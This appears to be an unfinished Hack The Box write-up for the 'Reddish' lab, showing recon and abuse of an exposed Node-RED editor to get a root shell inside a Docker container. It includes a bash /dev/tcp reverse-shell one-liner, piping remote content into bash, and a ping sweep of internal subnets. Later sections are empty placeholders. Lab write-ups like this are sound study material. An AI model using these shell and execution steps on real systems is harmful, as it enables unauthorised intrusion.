

- Machine : https://app.hackthebox.com/machines/Reddish
- Reference : https://0xdf.gitlab.io/2019/01/26/htb-reddish.html
- Solved : 2024.00.00. (Thu) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.94
Performing quick port scan on 10.10.10.94...
Found open ports: 1880
Performing detailed scan on 10.10.10.94...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-16 15:32 EST
Nmap scan report for 10.10.10.94
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js Express framework
|_http-title: Error

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.46 seconds
```

Only a single port is open...
It looks like an Node.js web service.
But still it's suspicious that only a single port is open..
Let's try scanning deeply.

### http(1880)


Even the main page returns an error...
Let me try scanning with `nikto`...

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://10.10.10.94:1880
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.94
+ Target Hostname:    10.10.10.94
+ Target Port:        1880
+ Start Time:         2024-12-16 15:48:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ /: Retrieved x-powered-by header: Express.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ .: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ OPTIONS: Allowed HTTP Methods: POST .
+ 8045 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2024-12-16 16:06:43 (GMT-5) (1118 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

It says the allowed HTTP method is `POST`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.94:1880 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.94:1880
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icons                (Status: 301) [Size: 169] [--> /icons/]
/red                  (Status: 301) [Size: 165] [--> /red/]
/vendor               (Status: 301) [Size: 171] [--> /vendor/]
```

Some pages are redirected, but still none of the pages are working..
Let's try `Burpsuite` to capture the requests.


As we saw from the `nikto` scan, the page allows only `POST` method.
Let's then try `POST` method..


Finally! There is something useful coming out!
When I replace the method to `POST`, the response returns with `json` type data.

```json
{
"id":"9d9909fed4f56c82a64de65d3ca9292d",
"ip":"::ffff:10.10.14.14",
"path":"/red/{id}"
}
```

The `id` seems to be reused in `path`.
The `ip` is my kali's ip address.
The path `/red` is the one that we found from `gobuster` scan..
Let's try going to `/red/9d9909fed4f56c82a64de65d3ca9292d` with `GET` method for this time.


I was redirected to `NODE-RED` page. It looks like `SCRATCH` coding page... or some other `ICS` panel??
There are blocks on left side, and the blocks' name imply that they have to do with network traffics..
Let's google it to find what the application is..


Based on the explanation, it's a low-code development tool for visual programming developed by IBM for wiring hardware devices.


On its menu tab, I can find the application's version : `v0.18.4`
Couldn't really find any vulnerabilities or CVEs mentioned publicly.
Let's enumerate the service itself.


# Restricted shell as docker's `root`


Among the blocks, there's an interesting block named `exec` which enables system command running with the block.



Also on `Input` and `Output` widgets, there are `tcp` blocks which might allows connections with our kali machine.


I set Output TCP block to try connecting to our kali machine on port 9000.
Then I connected this flow with `exec`.

Then, let's open listener on kali before deploy.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 35660
id
whoami
```

Yes! It triggers communications with remote machine.
However, still I cannot run command remotely.


To make it interactive, I added one more block, `Input TCP`, and set its type as `Reply to TCP`.
I expect this allows kali to exec commands and reply this back.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 40412
id
uid=0(root) gid=0(root) groups=0(root)
[object Object]ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
19: eth1@if20: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
[object Object]ls -al /root
total 40
drwx------ 1 root root 4096 Jul 15  2018 .
drwxr-xr-x 1 root root 4096 Jul 15  2018 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwx------ 1 root root 4096 Jul 15  2018 .config
drwx------ 1 root root 4096 Jul 15  2018 .gnupg
drwxr-xr-x 3 root root 4096 Jul 15  2018 .node-gyp
drwxr-xr-x 5 root root 4096 Jul 15  2018 .npm
-rw-r--r-- 1 root root  140 Nov 19  2007 .profile
[object Object]cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
node:x:1000:1000::/home/node:/bin/bash
```

I successfully spawned a reverse shell with valid RCE function!


# Normal Shell as docker's `root`

### Enumeration

However, I think the machine is somewhat weird.
It doesn't have flag, and it doesn't seem like a normal shell.
Let's run `linpeas` for enumeration.

To transfer `linpeas` file, I tried to open a webserver and use `curl` or `wget` command to download on remote machine, but there was no useful binaries..
Instead, I used TCP socket to transfer file.

Also, I found out that the current shell is not a normal `/bin/sh` but `dash` shell.
Instead, `/bin/bash` is normal, so let's use `bash` with `-c` option.

```bash
[object Object]ls -al /bin/sh
lrwxrwxrwx 1 root root 4 Nov  8  2014 /bin/sh -> dash

[object Object]ls -al /bin/bash
-rwxr-xr-x 1 root root 1029624 Nov  5  2016 /bin/bash
```

Let's open a listener with redirection of the binary.

```bash
┌──(kali㉿kali)-[/usr/share/peass/linpeas]
└─$ nc -nlvp 8000 < linpeas_linux_amd64
listening on [any] 8000 ...
```

Then, let's use the binary and run `linpeas` script.

```bash
[object Object]/bin/bash -c "cat < /dev/tcp/10.10.14.14/8000 | bash"
bash: line 1: syntax error near unexpected token `)'
bash: line 1: `ELF>ñE@È@8@@@@@@@@dd@@Å° Å° À ÀIÀIPe`ãQåte@Å   jÀIÀ £ p czr e^ eô | k^ kÐ ðk^ðkl^l¤ Be%  e %À! à1fà1&p| `®f`®&HñÀiÀ)ÀS ¹j°&j±&_Õxlx³(·d,/hl/▒)Cïrhlr▒)ýxoáoo,øaÚq.ÀªP@d4/p▒£80ÊSGosSXQpNJu1EEvYafjbCjM/H0E74WvDXha_CEvthmGG/djLYA4QBJ-hdRVVB1xcv/JFpEA5ewsbfNzMc_3UkWI;fv8Hì▒Hl$Hl$HD$ H\$(fè{HD$ H\$(è,Hl$HÄ▒ÃHDH\$èóªHDH\$ë§ÌÌÌÌÌÌÌLd$ØM;føHì¨H¬$ H¬$ H$°ëHðLÃHÛ1ÉéHÇÁÿÿÿÿHÉ}E1À1öHÙë1@H9ÙHqH9ó}H)ËH{ÿIøH÷ßHÁÿ?H!þHÆHù|8cpu.u1ÒéIHÇÂÿÿÿÿHt$pLD$PHÒKH9ÊHúHzüIùH÷ßHÁÿ?HçH8LRL9Ñ×LL$HH\$`H)ÑLYÿL\$▒MÜI÷ÛIÁû?M!ÚNL\$XHùuF·fAúontH~fHùu`F·,fAýofuSF¶TAúfuGHúu)D·8fAúalu¶|8@ÿluH=m¡&1ÀéÀHL$@HW¡&HT$81Àérèû
  ȏ'
```

It fails again. So, I think I need to spawn a normal shell.

### Spawn a reverse shell again

Let's use the same `/bin/bash`file to open a valid reverse shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 52068
id
uid=0(root) gid=0(root) groups=0(root)
[object Object]/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.14/9001 0>&1"
```

Then, let's wait on a new listener.

```bash
┌──(kali㉿kali)-[/usr/share/peass/linpeas]
└─$ nc -nlvp 9001                      
listening on [any] 9001 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 40392
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@nodered:/node-red# id
id
uid=0(root) gid=0(root) groups=0(root)
root@nodered:/node-red# echo $SHELL
echo $SHELL
/bin/bash
root@nodered:/node-red# 
```


# Shell as `???`

### Enumeration again

At this time, I expect `linpeas` to work with valid shell.

```bash
root@nodered:/node-red# cat < /dev/tcp/10.10.14.14/8000 | bash

<SNIP>

  YOU ARE ALREADY ROOT!!! (it could take longer to complete execution)

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                         
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)                       

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-27365] linux-iscsi

   Details: https://blog.grimm-co.com/2021/03/new-old-bugs-in-linux-kernel.html
   Exposure: less probable
   Tags: RHEL=8
   Download URL: https://codeload.github.com/grimm-co/NotQuite0DayFriday/zip/trunk
   Comments: CONFIG_SLAB_FREELIST_HARDENED must not be enabled

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2018-1000001] RationalLove

   Details: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/
   Exposure: less probable
   Tags: debian=9{libc6:2.24-11+deb9u1},ubuntu=16.04.3{libc6:2.23-0ubuntu9}
   Download URL: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c
   Comments: kernel.unprivileged_userns_clone=1 required

[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64

   Details: https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt
   Exposure: less probable
   Tags: debian=7.7|8.5|9.0,ubuntu=14.04.2|16.04.2|17.04,fedora=22|25,centos=7.3.1611
   Download URL: https://www.qualys.com/2017/06/19/stack-clash/linux_ldso_hwcap_64.c
   Comments: Uses "Stack Clash" technique, works against most SUID-root binaries


╔══════════╣ Protections
═╣ AppArmor enabled? .............. AppArmor Not Found                     
═╣ AppArmor profile? .............. docker-default (enforce)               
═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found                   
═╣ PaX bins present? .............. PaX Not Found                          
═╣ Execshield enabled? ............ Execshield Not Found                   
═╣ SELinux enabled? ............... sestatus Not Found                     
═╣ Seccomp enabled? ............... enabled                                
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... enabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes (vmware) 


═══════════════════════════════════╣ Container ╠═══════════════════════════════════                                                                   
                                   ╚═══════════╝                           
╔══════════╣ Container related tools present (if any):
╔══════════╣ Container details                                             
═╣ Is this a container? ........... docker                                 
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details                                      
═╣ Am I inside Docker group ....... No                                     
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found                              
═╣ Vulnerable to CVE-2019-5736 .... Not Found                              
═╣ Vulnerable to CVE-2019-13139 ... Not Found                              
═╣ Vulnerable to CVE-2021-41091 ... Not Found                              
═╣ Rootless Docker? ............... No    


╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users   
uid=0(root) gid=0(root) groups=0(root)   
```

Based on the enumeration, I found out that the shell we obtained was not the host machine's one, but for the docker container.

```sql
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
19: eth1@if20: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```

Also, I can see the docker machine doesn't have `10.10.10.94` IP address that we are initially given.
Then, the docker is supposed to be in the host's local network.
Let's try if there's an IP in `eth0@f14`, and `eth1@if20` network.

I'll use the following command one liner.

```bash
for ip in $(seq 1 5); do ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done

Online: 172.18.0.1
Online: 172.18.0.2


for ip in $(seq 1 5); do ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.19.0.$ip"; done

Online: 172.19.0.1
Online: 172.19.0.2
Online: 172.19.0.3
Online: 172.19.0.4
```


# Shell as `user`

### Whatever


# Shell as `user2`

### Whatever


# Shell as `admin`

### Whatever
